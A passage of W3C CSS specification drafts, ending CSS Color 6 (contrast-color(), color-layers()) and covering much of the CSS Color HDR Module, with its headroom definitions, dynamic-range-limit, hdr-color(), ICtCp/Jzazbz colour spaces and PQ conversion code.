<color-layers()> = color-layers([ <blend-mode>, ]? <color># )
```

It returns a `<color>` which is the result of compositing these layers, using the [Compositing 1 § 9.1.4 Source Over](#compositing-2:porterduffcompositingoperators_srcover) compositing operator and the specified `<blend-mode>`.

If no `<blend-mode>` is given, `normal` blend-mode is used.

> **Example:** @@Add simple example with normal blend mode and two colors, the first of which has non-unity alpha

> **Example:** @@Add simple example with normal blend mode and three colors, the first two of which have non-unity alpha

> **Example:** @@Add simple example with normal blend mode and two colors, both of which have non-unity alpha

> **Example:** @@Add example with overlay blend mode and two colors, the first of which has non-unity alpha

### 4.  Resolving `<color>` Values {#css-color-6:resolving-color-values}

#### 4.1. Resolving `contrast-color()` values {#css-color-6:resolving-contrast}

If all `<color>` parameters resolve to the corresponding colors in their respective color spaces, the computed value is the winning color resolved according to [CSS Color 4 §  15. Resolving <color> Values](#css-color-4:resolving-color-values). Otherwise (if `currentColor` was used in the function), the computed value is the `contrast-color()` function with each component computed, thus preserving inheritance into child elements.

> **Example:** For example, given the value
>
> ```css
> contrast-color(rgb(179 213 230) tbd-bg wcag2(AA), cadetblue, hsl(200 83% 23%))
> ```
>
> the contrast with cadetblue is **1.97** while the contrast with hsl(200 83% 23%) is **6.09** which exceeds 4.5, the value for `AA`; so it has the computed value of the resolved hsl function:
>
> ```css
> rgb(10 75 107)
> ```

> **Example:** For example, given a current color value of  rgb(179 213 230), the value
>
> ```css
> contrast-color(currentColor tbd-bg wcag2(AA), hsl(200 83% 23%), purple)
> ```
>
> has the computed value
>
> ```css
> contrast-color(currentColor tbd-bg wcag2(4.5), rgb(10 75 107), rgb(128 0 128))
> ```

#### 4.2. Resolving `color-layers()` values {#css-color-6:resolving-layers}

If all `<color>` parameters resolve to the corresponding colors in their respective color spaces, the computed value is the composited color resolved according to [CSS Color 4 §  15. Resolving <color> Values](#css-color-4:resolving-color-values). Otherwise (if `currentColor` was used in the function), the computed value is the `color-layers()` function with an explicit `<blend-mode>` and with each component computed, thus preserving inheritance into child elements.

### 5. Serialization {#css-color-6:serial}

This section extends [CSS Color 4 §  16. Serializing <color> Values](#css-color-4:serializing-color-values) to add serialization of the results of the `contrast-color()` function.

#### 5.1. Serializing contrast-color() {#css-color-6:serial-contrast-color}

The declared value of the `contrast-color()` function is serialized with each keyword value as specified and each component in canonical order.

The resolved value of the `contrast-color()` function is the used color serialized the same as any other `<color>`.

#### 5.2. Serializing color-layers() {#css-color-6:serial-color-layers}

@@TODO

### 8. Accessibility Considerations {#css-color-6:a11y}

This specification introduces a new feature to help stylesheet authors write stylesheets which conform to WCAG 2.1 [section 1.4.3 Contrast (Minimum)](https://www.w3.org/TR/WCAG21/#contrast-minimum).

---

## CSS Color HDR Module Level 1 {#css-color-hdr-1}

- **Shortname:** `css-color-hdr-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-color-hdr-1/](https://drafts.csswg.org/css-color-hdr-1/)
- **Published TR:** [https://www.w3.org/TR/css-color-hdr-1/](https://www.w3.org/TR/css-color-hdr-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-06-07

### 1. Introduction {#css-color-hdr-1:intro}

*This section is not normative.*

CSS Color 4 adds Wide Color Gamut (WCG) color spaces to the Open Web Platform. By design, these are all Standard Dynamic Range (SDR) color spaces. This specification defines additions to support High Dynamic Range (HDR).


The Electro-Optical Transfer Functions (EOTF) of four color spaces: extended sRGB and linear-light sRGB (as defined in CSS Color 4) and the Perceptual Quantizer (PQ) and Hybrid Log-Gamma (HLG) as defined in this specification, from [Rec_BT.2100].

While WCG specifications have been broadly stable for some decades, HDR standards are less mature and have undergone frequent revision in the last decade.

#### 1.1. Value Definitions {#css-color-hdr-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. HDR Terminology {#css-color-hdr-1:terminology}

#### 2.1. Defining Dynamic Range {#css-color-hdr-1:defining-dynamic-range}

**Peak luminance** is the luminance of the brightest white that can be displayed. It is a linear-light quantity, measured in cd/m2, also called *nits*.

**Deepest black** is the luminance of the darkest black that can be displayed. It is affected by viewing flare (ambient light reflected off the screen), and so the actual value depends on the viewing conditions.

**Linear dynamic range** is the luminance ratio between the *lightest* and the *darkest* colors that can be displayed.

**Dynamic range** is the base-2 logarithm of linear dynamic range, because our eyes percieve brightness on a logarithmic scale. Dynamic range is measured in photographic *stops*. One stop is a doubling of luminance.

```js
function DynamicRange (peak, deepest) {
  return Math.log2(peak) - Math.log2(deepest);
  } 
```

**HDR Reference White**, also called media white or diffuse white, is defined in [Rpt_BT.2408-9] section 2.1, with a standard value of 203 cd/m2. It is the color of a normal white background, or of white text on a dark background. It can be comfortably viewed, over the whole screen.

In **Standard Dynamic Range** (SDR), HDR Reference White is also lightest possible color, produced by full-intensity red, green, and blue.

> **Example:** For example, in sRGB, under standard viewing conditions, white is defined to have a luminance of 80 cd/m² while black is defined to have a luminance of 0.2 cd/m². Thus, the dynamic range is 8.6 stops.

It is common to adjust the overall brighness of the screen to acommodate user preference or viewing conditions which are different to the standard ones.

For SDR, making the screen brighter does not change the dynamic range, because the darkest color also gets brighter.

> **Example:** For example, an sRGB screen, might be set so that white has a luminance of 160 cd/m² so the deepest black now has a luminance of 0.4 cd/m². The dynamic range is still 8.6 stops.

In **High Dynamic Range** (HDR), brighter colors than HDR Reference White can be displayed. For example, if HDR Reference White on an HDR display is set to 203 cd/m² it might be possible to display small highlights at 1000 cd/m². Typically, the brightest colors can only be displayed on a small part of the display, and for a limited time. This is because of energy usage and heating considerations.

> **Example:** For example, on an HDR reference mastering display, the small-area peak white might have a luminance of 1000 cd/m² while the deepest black has a luminance of 0.05 cd/m². Thus, the dynamic range is 14.3 stops.

For HDR, using a brighter screen increases the dynamic range, while the luminance of HDR Reference White remains constant.

> **Example:** For example, using the `rec2100-pq` colorspace defined in [Rec_BT.2100], the brightest peak white is defined to have a luminance of 10,000 cd/m² while the deepest black has a luminance of 0.001 cd/m². Thus, the encoded dynamic range is 23.3 stops.

> **Issue:** add a diagram showing SDR and HDR dynamic ranges on a log scale

When [§ 9 Compositing SDR and HDR content](#css-color-hdr-1:Compositing-SDR-HDR), and for color space conversion, the HDR Reference White for SDR content should be anchored at **203 cd/m²** [Rpt_BT.2408-9] so that that the HDR Reference White level of the inputs to compositing will end up at the HDR Reference White level of the combined signal.

When displaying HDR (or mixed SDR and HDR) content, for displays which are less capable than the reference mastering display, and for viewing conditions different to the standard ones, a **color re-rendering** step ((OOTF) will be performed. This may result in a HDR Reference White being displayed at a value lower or higher than 203 cd/m².

#### 2.2. Introducing Headroom {#css-color-hdr-1:introducing-headroom}

The peak luminance level which an HDR display can produce varies greatly.

The amount by which peak luminance is greater than HDR Reference White is termed the **linear HDR headroom**, and the value depends on the level of HDR Reference White, user preference, and viewing conditions.

> **Example:** For example, if a display displays HDR Reference White at 160 cd/m2 and has a peak luminance of 1000 cd/m2 then it has a linear HDR headroom of 1000 / 160 = 6.25 times.

**HDR headroom** is the base 2 logarithm of linear HDR headroom, and like dynamic range it is expressed in photographic **stops**.

```js
function Headroom (peak, reference) {
  return Math.log2(peak) - Math.log2(reference);
  } 
```

> **Example:** For example, if a display displays HDR Reference White at 160 cd/m2 and has a peak luminance of 1000 cd/m2 then it has an HDR headroom of log2(1000) - log2(160) = 2.64 stops.

Thus, standard dynamic range (SDR) by definition has an HDR headroom of 0 stops, because the brightest white is the same as HDR Reference White.

> **Example:** For example, a low-end HDR display (which *just* meets the requirements of [DisplayHDR 400](https://displayhdr.org/), the lowest tier of Vesa Certified DisplayHDR conformance [DisplayHDR]) might display HDR Reference White at up to 200 cd/m2 while the peak white is only 400 cd/m2 (at the brightest HDR Reference White, only one stop of HDR headroom).

> **Example:** For example, a high-end HDR display (which exceeds the requirements of [DisplayHDR 1400](https://displayhdr.org/), the current highest tier of Vesa Certified DisplayHDR conformance) might display HDR Reference White at up to 400 cd/m2 while it’s peak white is 1600 cd/m2.
>
> In dim viewing conditions, with HDR Reference White set to 100 cd/m2, this gives four stops of HDR headroom (16x linear HDR headroom).

The Web platform does not currently directly expose the level of headroom of a display, because it depends on viewing conditions and real-time, unquantized headroom information would be a tracking vector (for example, detecting that a user moved outside and that it is a sunny day).

It is not always desirable to use the maximum available level of HDR headroom. CSS provides a way to control, in broad terms, how much headroom is desired; and this level can vary by element and over time.

> **Example:** For example, consider a Web page displaying a grid of photographs. Some of these are HDR, including some very high dynamic range images such as a shot straight into the sun. It would be tiring to view the set of photos together at full dynamic range. At the same time, squashing everything to the SDR range would not adequately represent the character of individual photos. The design goal is to show "enough" HDR to allow meaningful evaluation of the group of photos.

### 3. Controlling Dynamic Range {#css-color-hdr-1:controlling-dynamic-range}

#### 3.1. The `dynamic-range-limit` property {#css-color-hdr-1:the-dynamic-range-limit-property}

| Field | Value |
| --- | --- |
| Name: | **dynamic-range-limit** |
| [Value:](#css-values-4:value-defs) | standard \| no-limit \| constrained \| `<dynamic-range-limit-mix()>` |
| [Initial:](#css-cascade-6:initial-values) | no-limit |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | see [Computed Value for dynamic-range-limit](#css-color-hdr-1:computing-dynamic-range-limit) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by `dynamic-range-limit-mix()` |

****standard****

: The highest luminance color that is displayed is the same as HDR Reference White, i.e. the CSS color `white`.

****no-limit****

: The highest peak luminance that is displayed is much greater than HDR Reference White, i.e. the CSS color `white`; the precise level is not specified.

****constrained****

: The highest peak luminance that is displayed is somewhat greater than HDR Reference White, i.e. the CSS color `white`, such that a mix of SDR and HDR content can be comfortably viewed together.

> **Example:** ```css
> body { dynamic-range-limit: standard; }
> div.photogrid img { dynamic-range-limit: constrained }
> ```

#### 3.2. Mixing Dynamic Range Limits: the `dynamic-range-limit-mix()` function {#css-color-hdr-1:dynamic-range-limit-mix}

This function takes one or more `dynamic-range-limit` values, converts them internally to a value in stops above HDR Reference White, and alters the display to the result of mixing them by the specified amount. For privacy reasons, the actual calculated result is not exposed.

```css
dynamic-range-limit-mix() = dynamic-range-limit-mix( [ <'dynamic-range-limit'> && <percentage [0,100]> ]# )
```

#### 3.3.  Computed Value for `dynamic-range-limit` {#css-color-hdr-1:computing-dynamic-range-limit}

If the specified value is `standard`, `constrained`, or `no-limit`, then the computed value is the specified value.

If the specified value is `dynamic-range-limit-mix()`, then the computed value is determined by the following algorithm:

1. Let *v1*, ..., *vN* be the computed values for the parameters to be mixed.
2. Let *p1*, ..., *pN* be the mixing percentages, normalized to sum to 100%.
3. Define the contributing percentages as:

  - Let *p1_standard*,...,*pN_standard* be the percentages for `standard` in *v1*,...,*vN*
  - Let *p1_constrained_high*,...,*pN_constrained_high* be the percentages for `constrained` in *v1*,...,*vN*
  - Let *p1_no_limit*,...,*pN_no_limit* be the percentages for `no-limit` in *v1*,...,*vN*
4. Compute the weighted sums as:

  - *p_standard*=(*p1_standard***p1*+...+*pN_standard***pN*)/100.
  - *p_constrained_high*=(*p1_constrained_high***p1*+...+*pN_constrained_high***pN*)/100.
  - *p_no_limit*=(*p1_no_limit***p1*+...+*pN_no_limit***pN*)/100.
5. If *p_standard*, *p_constrained_high*, or *p_no_limit* equals 100%, then the computed value is `standard`, `constrained`, or `no-limit`, respectively.
6. Otherwise, the computed value is `dynamic-range-limit-mix()`, with parameters `standard`, `constrained`, and `no-limit`, in that order, and percentages *p_standard*, *p_constrained_high*, and *p_no_limit*, omitting parameters with a percentage equal to 0%. If *all* parameters are thereby omitted, the computed value is the initial value.

> **Example:** The computed value of
>
> ```css
> dynamic-range-limit-mix(
>     no-limit 10%,
>     dynamic-range-limit-mix(standard 25%, constrained 75%) 20%,
>     dynamic-range-limit-mix(constrained 10%, no-limit 30%) 20%)
> ```
>
> is
>
> ```css
> dynamic-range-limit-mix(standard 10%, constrained 40%, no-limit 50%)
> ```

### 4. The `<color>` syntax {#css-color-hdr-1:color-syntax}

This module extends the `<color-function>` type:

```css
<color-function> = <rgb()> | <rgba()> |
    <hsl()> | <hsla()> | <hwb()> |
    <lab()> | <lch()> | <oklab()> | <oklch()> |
    <ictcp()> | <jzazbz()> | <jzczhz()> |
    <alpha()> |
    <color()> |
    <hdr-color()>
ictcp() = ictcp([from <color>]?
  [<percentage> | <number> | none]
  [<percentage> | <number> | none]
  [<percentage> | <number> | none]
  [ / [<alpha-value> | none] ]? )
jzazbz() = jzazbz([from <color>]?
  [<percentage> | <number> | none]
  [<percentage> | <number> | none]
  [<percentage> | <number> | none]
  [ / [<alpha-value> | none] ]? )
jzczhz() = jzczhz([from <color>]?
  [<percentage> | <number> | none]
  [<percentage> | <number> | none]
  [<hue> | none]
  [ / [<alpha-value> | none] ]? )
```

### 5. HDR colors parameterized by headroom: the `hdr-color()` function {#css-color-hdr-1:hdr-color-function}

The `hdr-color()` function allows a range of colors to be specified, whose value is automatically calculated based on the HDR headroom.

It does this by specifying two `<color>` values, each with an associated level of HDR headroom. (The two headroom values must not be the same). The actual value is computed by interpolating between these two colors, based on the current amount of HDR headroom, as described in [§ 5.1 Interpolating colors based on headroom](#css-color-hdr-1:headroom-interpolation).

This is a similar mechanism to gain maps, in raster images conforming to [ISO_21496-1], or to adaptive gain curves, in [SMPTE-ST-2094-50].

For privacy reasons, the actual calculated color is not exposed, nor is the actual HDR headroom, as this is a fingerprinting vector.

Its syntax is as follows:

```css
hdr-color() = color-hdr([ <color> && <number [0,∞]>? ]#{2})
```

> **Example:** Consider the color:
>
> ```css
> color-hdr(
>   color(rec2100-linear 0.9 1.0 0.8) 0,
>   color(rec2100-linear 1.8 2.0 1.5) 2);
> ```
>
> On a display with HDR headroom <= 0, in other words, an SDR display, this color will display as
>
> ```css
> color(rec2100-linear 0.9 1.0 0.8)
> ```
>
> On a display with HDR headroom >= 2, this color will display as
>
> ```css
> color(rec2100-linear 1.8 2.0 1.5) 2);
> ```
>
> For displays whose headroom lies between 0 and 2, the color is interpolated. For [example](#css-color-hdr-1:ex-hdr-interpolate), on a display with HDR headroom 1:
>
> X = 243.664, Y = 275.713, Z = 244.000

Colors are interpolated in **Absolute D65 CIE XYZ**.

This is derived from `xyz-d65` by multiplying each color component by 203 [Rpt_BT.2408-9] to convert from relative units (Y of white is 1, regardless of actual brightness) to absolute units of cd/m², also called "nits". In the [sample code](#css-color-hdr-1:color-conversion-code), this constant is denoted *Yw*, the luminance of HDR Reference White.

> **Example:** For example, the css color `white` is
>
> ```css
> color(xyz-d65 0.9505 1 1.089)
> ```
>
> In absolute D65 XYZ this is [192.9426, 203, 221.0787]

#### 5.1.  Interpolating colors based on headroom {#css-color-hdr-1:headroom-interpolation}

To interpolate between a color *c1* at headroom *H1* and a color *c2* at headroom *H2*, giving result color *cxyz*, when the target headroom is *H*:

1. Let *c1xyz* be *c1* converted to Absolute D65 CIE XYZ
2. Let *c2xyz* be *c2* converted to Absolute D65 CIE XYZ
3. Let  *w1* = clamp((*H* - *H2*) / (*H1* - *H2*), 0, 1)
4. Let  *w2* = clamp((*H* - *H1*) / (*H2* - *H1*), 0, 1) Note that  *w2* = 1 -  *w1*
5. Let *eps* = 0.001
6. Let *cxyz* = Array(3)
7. For i from 0 to 2: Let *cxyz*[i] = pow(*c1xyz*[i] + *eps*, *w1* ) * pow(*c2xyz*[i] + *eps*, *w2* ) - *eps*

> **Note:** The factor *eps* is to prevent division by zero, and is particularly important when interpolating with SDR colors near to black.

> **Example:** For example, given c1 = color(rec2100-linear 0.9 1.0 0.8), c2 = color(rec2100-linear 1.8 2.0 1.5), H1 = 0, H2 = 2, and H = 1:
>
> ```css
> c1xyz = [ 173.156, 195.260, 178.003 ]
> c2xyz = [ 342.883, 389.315, 334.467 ]
> w1 = 0.5
> w2 = 0.5
> cxyz = [ 243.664, 275.713, 244.000 ]
> ```

> **Example:** For example, given c1 = color(display-p3 1 1 0.33), c2 = jzczhz(70% 0.14 100), H1 = 0.5, H2 = 4, and H = 2;
>
> ```css
> c1xyz = [ 156.285, 188.337, 28.015 ]
> c2xyz = [ 3776.1434, 4362.407, 1577.913 ]
> w1 = 0.571 
> w2 = 0.429
> cxyz = [ 611.911, 724.180, 157.650 ]
> ```
>
> Note that c1 will be used unmodified at all headroom values <= 0.5, and c2 will be used unmodified at all headroom values >= 4.

> **Example:** For example, given c1 = ictcp(50% -0.3 0), c2 = ictcp(85% -0.35 0.1), H1 = 0, and H2 = 4. This would be expressed in CSS as:
>
> ```css
> color-hdr(
>   var(--c1) 0,
>   var(--c2) 4
> )
> ```
>
> If H = 2.3
>
> ```css
> c1xyz = [63.6, 96.53, 8.558]
> c2xyz = [2521, 2508, 112.2]
> w1 = 0.425
> w2 = 0.575
> cxyz = [527.68, 628.20, 37.59]
> ```

### 6.  Device-Independent HDR Colors {#css-color-hdr-1:DI-HDR}

In the same way that [CSS Color 4 § 9 Device-independent Colors: CIE Lab and LCH, Oklab and OkLCh](#css-color-4:lab-colors) allows specifying device-independent SDR colors, this specification allows specifying device-independent HDR colors.

#### 6.1.  Introducing ICtCp {#css-color-hdr-1:ictcp-intro}

*This section is not normative.*

The ICTCP color space has better perceptual uniformity than CIE Lab, and is used as a part of the color image pipeline in video and digital photography systems for high dynamic range (HDR) and wide color gamut (WCG) imagery.

The T and P subscripts refer to the Tritanope (yellowness-blueness) and Protanope (redness-greenness) opponent color axes in the human visual system. To avoid pesky subscripts, the simplification ICtCp is frequently used.

ICTCP was originaly developed by Dolby Laboratories [What_is_ICtCp] from the IPT color space by Ebner and Fairchild [Development_ITP], and is defined in [Rec_BT.2100] as the Constant Intensity ICTCP signal format. It was intended to replace YCbCr [Perrin].

It is based on the human visual system LMS cone primaries; the Hunt-Pointer-Estevez (HPE) XYZ to LMS transform is used, normalized to a D65 whitepoint. A 4% crosstalk matrix is then applied [What_is_ICtCp], to reduce the gamut hull concavities of BT.2020 RGB, thus reducing interpolation errors. The crosstalk also provides improved lines of constant hue and improved uniformity of Just Noticeable Difference (JND) MacAdam ellipses.

Unlike `Lab`, which has primarily been tested with lower-intensity *reflective* colors, ICTCP has been tested with high-chroma (wide color gamut), self-luminous, and high intensity (HDR) colors.

This makes it suitable for HDR color difference measurement [(deltaE ITP)](#css-color-hdr-1:deltaE) and for gamut mapping of mixed SDR and HDR colors.

> **Example:** For example, BT.2020 and BT.2100 use the same primaries and white point. BT.2020 is SDR, while BT.2100 is HDR and places HDR Reference White at a code value close to 0.58.
>
> Here is a very wide gamut primary red in both color spaces:
>
> ```css
> color(rec2100-pq 0.58 0 0) /* ictcp(44.6% -0.129 0.399) */
> color(rec2020 1 0 0)       /* ictcp(44.7% -0.130 0.399)  */
> ```
>
> The two colors are clearly very close in ICTCP and the deltaE ITP is 0.487, meaning the colors are not visually different.
>
> These colors are very different from sRGB "red":
>
> ```css
> color(rec2100-pq 0.58 0 0) /* ictcp(44.6445% -0.1294117 0.3989655) */
> red                        /* ictcp(42.78803% -0.1157044 0.2787289) */
> ```
>
> the deltaE ITP is 87.7, meaning the colors are very visually different.

#### 6.2.  Introducing Jzazbz and JzCzhz {#css-color-hdr-1:jaz-intro}

*This section is not normative.*

The Jzazbz color space [Safdar-PUCS], and its polar form JzCzhz, were designed to be more perceptually uniform for wide gamut colors such as BT.2020, to accurately predict a wide-range of lightness, including HDR colors, and to have minimal inter-dependence between the perceptual attributes (lightness, chroma, and hue). In particular it has superior hue uniformity, compared to CAM16-UCS [Safdar-PUCS].

CIE Lab uses a lightness scale with a [0%, 100%] range, relative to HDR Reference White; similarly, Oklab uses a lightness scale with a [0, 1.0] range, again with 1.0 referring to HDR Reference White. In contrast, the Jz axis in `Jzazbz`, which has a [0, 1.0] range, uses an encoding *similar to* Perceptual Quantizer, and can represent a dynamic range of more than 13 stops.

#### 6.3. **ICtCp** {#css-color-hdr-1:ICtCp}

The `ICtCp` color space accepts three numeric parameters, with I representing the Intensity (similar to L in Lab, but covering a luminance range up to 10,000 cd/m2) while CT and CP represent the yellowness-blueness (tritanope) and redness-greenness (protanope) opponent-color axes (similar to b and a, respectively, in Lab).

It has the following characteristics:

|  | x | y |
| --- | --- | --- |
| White chromaticity | D65 |  |
| Transfer function | Perceptual Quantizer |  |
| White luminance | 203 cd/m² |  |
| Peak white luminance | 10,000 cd/m² |  |
| Black luminance | 0.001 cd/m² |  |
| Image state | display-referred |  |
| Percentages | Allowed for I, Ct and Cp |  |
| Percent reference range | for I: 0% = 0.0, 100% = 1.0 for Ct and Cp: -100% = -0.5, 100% = 0.5 |  |

Although [Rec_BT.2100] defines ICTCP by a conversion from linear-light BT.2100 RGB [Rec_BT.2100], this conversion proceeds via LMS and thus, any other color space can also be represented by applying an XYZ to LMS transform as shown in [What_is_ICtCp]. The [sample code](#css-color-hdr-1:ictcp_code) uses this approach.

> **Example:** This color represents the sRGB color "lime" in `ICtCp`
>
> ```
>  ictcp(53.97603% -0.2812479 -0.0494845)
> ```

> **Example:** This color represents a comfortable "diffuse white" This color can be displayed for long periods, or used for subtitles, on any sized area of the screen. It is the same color as sRGB `white`. Diffuse white is 203 cd/m² [Rec_BT.2100].
>
> ```
>  ictcp(58.06889% 0 0)
> ```

Within a relative color syntax `ictcp()` function, the allowed component keywords are:

- **i** is a `<number>` that corresponds to the origin color’s I (Lightness) after conversion, if required, to ictcp. 1.0 is equivalent to 100%.
- **ct** and **cp** are `<number>`s that correspond to the origin color’s ct and cp axes after conversion, if required, to ictcp. 0.5 is equivalent to 100%, while -0.5 is equivalent to -100%.
- **alpha** is a `<number>` that corresponds to the origin color’s alpha transparency. 1.0 is equivalent to 100%.

#### 6.4. **Jzazbz** {#css-color-hdr-1:Jzazbz}

The `Jzazbz` color space accepts three numeric parameters, with Jz representing the Lightness (similar to L in Lab) while az and bz represent the redness-greenness and yellowness-blueness opponent-color axes (similar to a and b in Lab).

`Jzazbz` has the following characteristics:

|  | x | y |
| --- | --- | --- |
| White chromaticity | D65 |  |
| Transfer function | Perceptual Quantizer |  |
| Peak white luminance | 10,000 cd/m² |  |
| Black luminance | 0.001 cd/m² |  |
| Image state | display-referred |  |
| Percentages | Allowed for Jz, az and bz |  |
| Percent reference range | for Jz: 0% = 0.0, 100% = 1.0 for az and bz: -100% = -0.21, 100% = 0.21 |  |

Note that unlike Lab, a D65 whitepoint is used. Thus, for most RGB spaces (which also use a D65 whitepoint) no chromatic adaptation step need be performed.

[Sample code](#css-color-hdr-1:jzazbz_code) for converting between XYZ-D65 and `Jzazbz` is provided.

> **Example:** This color represents a comfortable "diffuse white" This color can be displayed for long periods, or used for subtitles, on any sized area of the screen. It is the same color as sRGB `white`. Diffuse white is 203 cd/m² [Rec_BT.2100].
>
> ```
>  jzazbz(0.22207 -0.00016 -0.00012)
> ```

Within a relative color syntax `jzazbz()` function, the allowed component keywords are:

- **j** is a `<number>` that corresponds to the origin color’s Jz (Lightness) after conversion, if required, to jzazbz. 1.0 is equivalent to 100%.
- **a** and **b** are `<number>`s that correspond to the origin color’s az and bz axes after conversion, if required, to jzazbz. 0.21 is equivalent to 100%, while -0.21 is equivalent to -100%.
- **alpha** is a `<number>` that corresponds to the origin color’s alpha transparency. 1.0 is equivalent to 100%.

#### 6.5. **JzCzhz** {#css-color-hdr-1:JzCzhz}

Similar to LCH, which is the polar representation of Lab, `JzCzhz` is the polar form of `Jzazbz`.

Jz is identical to the value in `Jzazbz` and represents the Lightness, while Cz represents the Chroma or colorfulness and hz represents a hue angle, measured from the positive az axis, towards the positive bz axis.

It has the following characteristics:

|  | x | y |
| --- | --- | --- |
| White chromaticity | D65 |  |
| Transfer function | Perceptual Quantizer |  |
| Peak white luminance | 10,000 cd/m² |  |
| Black luminance | 0.001 cd/m² |  |
| Image state | display-referred |  |
| Percentages | Allowed for Jz and Cz |  |
| Percent reference range | for Jz: 0% = 0.0, 100% = 1.0 for Cz: 0% = 0.0, 100% = 0.26 |  |
| Powerless hue ε | Cz <= 0.0000026 |  |

> **Example:** This color represents the sRGB color "lime" in `Jzazbz`
>
> ```
>  jzazbz(0.17542 -0.1179 0.1092)
> ```
>
> and here is the same color in the polar form
>
> ```
>  jzczhz(0.17542 0.1614 132.50)
> ```


Visualization of the rec2020 color space in JzCzhz. The primaries and secondaries are shown (but in sRGB, not in the correct colors). For comparison, the sRGB primaries and secondaries are also shown, as dashed circles.

Within a relative color syntax `jzczhz()` function, the allowed component keywords are:

- **j** is a `<number>` that corresponds to the origin color’s Jz (Lightness) after conversion, if required, to jzczhz. 100 is equivalent to 100%.
- **c** is a `<number>` that corresponds to the origin color’s Cz (chroma) after conversion, if required, to jzczhz. 0.26 is equivalent to 100%.
- **h** is a `<number>` that corresponds to the origin color’s hz (hue), in degrees, after conversion, if required, to jzczhz, normalized to a [0, 360] range. 90 is equivalent to 90deg.
- **alpha** is a `<number>` that corresponds to the origin color’s alpha transparency. 1.0 is equivalent to 100%.

##### 6.5.1.  Converting `Jzazbz` colors to `JzCzhz` colors {#css-color-hdr-1:Jzazbz-to-JzCzHz}

Conversion to `JzCzhz` is trivial:

1. hz = atan2(bz, az) // but convert to degrees!
2. Cz = sqrt(az^2 + bz^2)
3. Jz is the same

In addition, practical code should return a `none` value if Cz is less than ε.

##### 6.5.2.  Converting JzCzhz colors to Jzazbz colors {#css-color-hdr-1:JzCzHz-to-Jzazbz}

Conversion to `Jzazbz` is trivial:

1. az = Cz cos(H) // convert to radians first!
2. bz = Cz sin(H) // convert to radians first!
3. Jz is the same

In addition, practical code should check for a `none` value for hz.

### 7.  Specifying Predefined and Custom Color Spaces: the `color()` Function {#css-color-hdr-1:color-function}

The `color()` function allows a color to be specified in a particular, given color space (rather than the implicit sRGB color space that most of the other color functions operate in).

This specification extends the `color()` function to allow [predefined color spaces for HDR](#css-color-hdr-1:predefined-HDR), in addition to the predefined SDR spaces from [CSS Color 4 §  10. Predefined Color Spaces](#css-color-4:predefined) and the relative color syntax from [CSS Color 5 § 4 Relative Colors](#css-color-5:relative-colors).

Its syntax is now as follows:

```css
<predefined-rgb> = srgb | srgb-linear | display-p3 | display-p3-linear | a98-rgb | prophoto-rgb | rec2020 | 
  rec2100-pq | rec2100-hlg | rec2100-linear
```

### 8. Predefined color spaces for HDR: {#css-color-hdr-1:predefined-HDR}

In addition to the [SDR color spaces](#css-color-4:predefined) defined by CSS Color 4, the following HDR color spaces are defined for use in the color function.

Serialization of values in these new color spaces is identical to the description in [CSS Color 4 §  16. Serializing <color> Values](#css-color-4:serializing-color-values).

#### 8.1. **rec2100-pq** {#css-color-hdr-1:valdef-color-rec2100-pq}

The `rec2100-pq` [Rec_BT.2100] color space accepts three numeric parameters, representing the red, green, and blue channels of the color, with each having a valid range of [0, 1] regardless of the actual bit depth (10 or 12 bits per component).

The Perceptual Quantizer (PQ) electro-optical transfer function is used [SMPTE-ST-2084],[Rec_BT.2100]. PQ assumes a reference viewing condition where the screen surround is at 5 cd/m².

ITU Reference 2100 is used for HDR 4k and 8k television.

It has the following characteristics: (The display primaries are the same as [Rec.2020]):

|  | x | y |
| --- | --- | --- |
| Red chromaticity | 0.708 | 0.292 |
| Green chromaticity | 0.170 | 0.797 |
| Blue chromaticity | 0.131 | 0.046 |
| White chromaticity | D65 |  |
| Transfer function | Perceptual Quantizer |  |
| White luminance | 203 cd/m² |  |
| Peak white luminance | 10,000 cd/m² |  |
| Black luminance | ≤ 0.005 cd/m² |  |
| Image state | display-referred |  |
| Percentages | Allowed for R, G and B |  |
| Percent reference range | for R,G,B: 0% = 0.0, 100% = 1.0 |  |

For narrow-range PQ video in a non-reference viewing environment, or for HLG (in any viewing environment), the black level should be adjusted using the PLUGE test signal and procedure specified in [Rec_BT.814] Annex . For PQ values in CSS, which uses wide-range, the black corresponds to code point 0.

> **Example:** This color represents a blinding white with a luminance of 10,000 cd/m². Such a bright color can only be displayed briefly, on a small area of the screen. Content is typically mastered with a lower peak white, such as 4,000 cd/m².
>
> ```
>  color(rec2100-pq 1.0 1.0 1.0);
> ```

> **Example:** This color represents a comfortable "diffuse white" This color can be displayed for long periods, or used for subtitles, on any sized area of the screen. It is the same color as sRGB `white`. Diffuse white is 203 cd/m² [Rec_BT.2100].
>
> ```
>  color(rec2100-pq 0.58 0.58 0.58);
> ```
>
> This color represents a mid grey, like a photographer’s "18% reflectance grey" card, at 17 cd/m².
>
> ```
>  color(rec2100-pq 0.34 0.34 0.34)
> ```

> **Issue:** add other examples, including encoding of sRGB red, green, blue and P3 red, green, blue.

Linear-light RGB signals are converted to PQ encoded as follows. The maximum encodable value (peak, small-area white) in PQ is 10,000 cd/m². HDR Reference White is 203 cd/m² [Rpt_BT.2408-9].

```javascript
var Er;			// the red, green or blue component, [0, 1] for SDR, [0, 70ish] for HDR
var Yw = 203;	// the luminance of diffuse white, cd/m²
var x = Er * Yw / 10000; 	// luminance of peak white is 10,000 cd/m².
const n = 2610 / (2 ** 14);
const m = 2523 / (2 ** 5);
const c1 = 3424 / (2 ** 12);
const c2 = 2413 / (2 ** 7);
const c3 = 2392 / (2 ** 7);
xPQ = (((c1 + (c2 * (x ** n))) / (1 + (c3 * (x ** n)))) ** m);
```

xPQ is the "gamma-corrected" (OETF-adjusted) signal [0, 1].

PQ encoded values are converted to linear-light as follows:

```javascript
var xPQ;			// the red, green or blue PQ-encoded component, [0, 1]
